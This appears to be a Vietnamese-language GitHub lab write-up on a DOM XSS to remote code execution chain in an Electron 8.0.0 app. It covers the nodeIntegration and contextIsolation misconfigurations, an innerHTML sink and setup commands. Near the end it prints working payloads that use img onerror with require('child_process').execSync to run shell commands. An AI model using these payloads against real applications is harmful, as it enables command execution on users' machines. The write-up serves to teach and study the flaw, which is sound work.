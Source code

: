 # RCE-to-XSS-Electron-8.0.0


Ứng dụng Electron 8.0.0 là một phiên bản cũ của Electron, được sử dụng để xây dựng các ứng dụng desktop chéo nền tảng (cross-platform) bằng công nghệ web như JavaScript, HTML và CSS. 

Mặc dù mang lại nhiều lợi ích bằng việc cho phép phát triển các ứng dụng desktop ngang hàng với web bằng JavaScript, HTML, và CSS, nhưng cũng tiềm ẩn rủi ro về bảo mật, cụ thể là lỗ hổng XSS đến RCE (Remote Code Execution).

Tổng quan : XSS to RCE

Setup 

  Sử dụng Electron 8.0.0 open source 
  
  URL Download : https://github.com/standardnotes/desktop/archive/v2.0.0.tar.gz
 
  Commands
```
wget https://github.com/standardnotes/desktop/archive/v2.0.0.tar.gz
tar xvfz v2.0.0.tar.gz
cd desktop-2.0.0/
npm audit
```
![1](https://github.com/Lilly-dox/Exploit-CVE-2023-22518/assets/130746941/47051781-9a54-4831-8142-e6b165d3b16c)

Chúng ta nhận được output :
```
npm ERR! code ENOLOCK
npm ERR! audit This command requires an existing lockfile.
npm ERR! audit Try creating one first with: npm i --package-lock-only
npm ERR! audit Original error: loadVirtual requires existing shrinkwrap file

npm ERR! A complete log of this run can be found in:
npm ERR!     /home/lilly-dox/.npm/_logs/2024-03-20T15_39_01_845Z-debug-0.log
```
Như lỗi trên hiển thị, chúng ta phải tạo tệp pack-lock.json, sử dụng lệnh được cung cấp trong báo lỗi để xử lý 
```
npm i --package-lock-only
```
sau đó chạy lại command :
```
npm audit
```
![2](https://github.com/Lilly-dox/RCE-to-XSS-Electron-8.0.0/assets/130746941/cd2349ca-7629-42b6-bbe5-6d69c97d7425)

XSS to RCE
Download the first vulnerability file :
<file vulnerable1.zip>

File : 
vulnerable1/main.js
![3](https://github.com/Lilly-dox/RCE-to-XSS-Electron-8.0.0/assets/130746941/4a7efd61-c551-4b04-9c42-72ebdbd4222f)

Như đã thấy :
1. `nodeIntegration` được bật (`nodeIntegration: true`)**:
    - nodeIntegration được bật, trang web có thể tự do sử dựng các module Node.js. Mặc dù việc kích hoạt tính năng này có thể thuận tiện cho các nhà phát triển nhưng nó làm tăng đáng kể rủi ro bảo mật. Nếu kẻ tấn công khai thác lỗ hổng XSS (Cross-Site Scripting) trong ứng dụng, chúng có thể sử dụng API Node.js để thực hiện các hành động độc hại trên hệ thống của người dùng, chẳng hạn như đọc/ghi tệp hoặc thực thi lệnh, dẫn đến Mã từ xa Lỗ hổng thực thi (RCE).
2. `contextIsolation` bị tắt (`contextIsolation: false`)**:
    - contextIsolation là  Là một tính năng bảo mật khác của Electron, phân cách môi trường giữa các mã nguồn được thực thi trong renderer. Nếu contextIsolation bị tắt, nó giúp mã độc có khả năng truy cập vào các APIs và mở đường cho RCE nếu người dùng bị tấn công XSS.

File:
renderer.js
 ![4](https://github.com/Lilly-dox/RCE-to-XSS-Electron-8.0.0/assets/130746941/fe5546a0-8657-437a-b3b6-1167166ac820)


 Nhận diện có innerHTML sink -> DOM XSS in innerHTML sink 

Khai thác :
 Dựng vulnerable1 lên để khai thác
 Commands:
 ```
 cd /path/to/vulnerable1
 npm install
 npm start
```
![5](https://github.com/Lilly-dox/RCE-to-XSS-Electron-8.0.0/assets/130746941/0fde2e41-b063-472b-a976-925dadbc6806)

Sau khi start :

![6](https://github.com/Lilly-dox/RCE-to-XSS-Electron-8.0.0/assets/130746941/4041753a-dbf7-4d33-b79c-6fdf1b70ca78)

Payloads :
```
test <img src=x onerror=alert("XSS")>
```
![7](https://github.com/Lilly-dox/RCE-to-XSS-Electron-8.0.0/assets/130746941/57a12b6f-4691-46f8-8841-f3f067992d80)

```
<img src=x onerror="alert(require('child_process').execSync('id').toString());"> 
```
![8](https://github.com/Lilly-dox/RCE-to-XSS-Electron-8.0.0/assets/130746941/901d21ef-5400-4c16-955f-d063213abd26)

```
<img src=x onerror="alert(require('child_process').execSync('ls -l').toString());">
```
![9](https://github.com/Lilly-dox/RCE-to-XSS-Electron-8.0.0/assets/130746941/e0859aa1-ac5e-4189-ad9f-77f706a640d1)




